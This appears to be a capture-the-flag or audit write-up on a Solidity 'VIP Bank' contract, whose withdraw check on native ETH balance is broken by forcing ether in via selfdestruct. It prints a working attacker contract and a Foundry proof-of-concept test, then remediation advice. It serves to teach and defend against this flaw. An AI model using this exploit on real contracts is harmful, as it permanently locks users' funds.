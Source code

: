 ## VIP Bank

### Vulnerability Analysis
Given contracts allows VIP users to withdraw their funds using `withdraw` function. In this function some validity checks performed.

The first condition `require(address(this).balance <= maxETH)` relies on the native(ETH) balance of the contract.
In some cases, the logic relying on native ETH balance is vulnerable to DOS(griefing) attacks,
because even if the contract doesn't specify a receive ether(or payable fallback) function, it's still possible to
forcibly send ether to the contract, e.g. via `selfdestruct`.

In this case the logic in condition is vulnerable, because it checks whether the current balance **less** or equal 0.5 ETH.
So if we manage to increase the contract's balance to exceed this value, the mentioned condition in `withdraw` function
will never pass, and all user funds will be locked forever.

### Attack Steps
1. Deploy a contract with `selfdestruct` functionality and some ETH balance (enough to exceed `maxETH`)
2. Call the function with `selfdestruct`

### POC

attacker contract - `VIP_BankAttack.sol`
```solidity
// SPDX-License-Identifier: MIT

pragma solidity 0.8.7;

contract VIP_BankAttack {
  function attack(address payable _target) external payable {
    selfdestruct(_target);
  }
}

```

forge(foundry) test:
```solidity
// SPDX-License-Identifier: MIT

pragma solidity 0.8.7;

import "forge-std/Test.sol";
import "./VIP_Bank.sol";
import "./VIP_BankAttack.sol";

contract VIP_BankPOC is Test {
  VIP_Bank target;
  address vipClient;

  function setUp() external {
    target = new VIP_Bank();

    // Create VIP client
    vipClient = makeAddr("vip");
    vm.deal(vipClient, 1 ether);
    target.addVIP(vipClient);

    require(target.VIP(vipClient), "POC: not a vip client");

    // VIP client deposit some ether
    vm.prank(vipClient);
    target.deposit{ value: 0.05 ether }();

    require(target.balances(vipClient) == 0.05 ether, "POC: vip incorrect balance");
  }

  // Confirm the emulated environment works as expected
  function testSuccessWithdraw() external {
    vm.prank(vipClient);
    target.withdraw(0.05 ether);
  }

  function testExploit() external {
    VIP_BankAttack attacker = new VIP_BankAttack();
    attacker.attack{ value: 0.6 ether }(payable(address(target)));

    vm.expectRevert("Cannot withdraw more than 0.5 ETH per transaction");
    vm.prank(vipClient);

    target.withdraw(0.05 ether);
  }
}
```

Command: `forge test --mc VIP_BankPOC`

### Remediation
When possible, contracts should avoid relying on the native ETH balance, since it can be manipulated.
Custom accounting logic(e.g. via dedicated variable) can be used instead of native ETH balances.
